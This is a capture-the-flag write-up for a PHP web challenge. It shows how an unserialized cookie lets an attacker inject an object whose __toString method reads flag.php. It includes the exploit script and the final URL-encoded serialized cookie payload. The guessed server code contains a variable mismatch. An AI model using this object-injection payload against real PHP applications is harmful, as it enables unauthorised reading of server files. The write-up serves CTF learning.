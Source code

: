 
#### Goals
 * Try to find the flag

#### Server Address
 * http://web.sniperoj.com:10002/

#### Writeups
1. access the url, we can find that there is a input form, try to input something.
2. notice cookie has been changed, a key 'list' is added.
```
a%3A1%3A%7Bi%3A0%3Bs%3A16%3A%22Hacked+by+smi1e%21%22%3B%7D
decode as url
a:1:{i:0;s:16:"Hacked by smi1e!";}
```
which means that the php code running on the server may like this
```php
$input = $_POST['a'];
$inputs = unserialize($_COOKIE['list']);
array_push($inputs, $input);
echo join('', $array);
```
3. PHP object injection!
4. then we check the html source code generated by index.php
found something interesting at the bottom
```php
#try to read flag.php	
Class whatthefuck{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}
```
5. all we need to do is try to call the `_toString` function of `class whatthefuck` to read the `flag.php`
6. here are the final exploit.
```php
➜  guess-the-code ls
exploit.php  flag.php
➜  guess-the-code cat exploit.php 
<?php

#try to read flag.php	
Class whatthefuck{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}

$x = new whatthefuck();
$x->source='flag.php';
$y = serialize(array($x));
$z = unserialize($y);
echo $z;
```
```
a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22whatthefuck%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```


## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
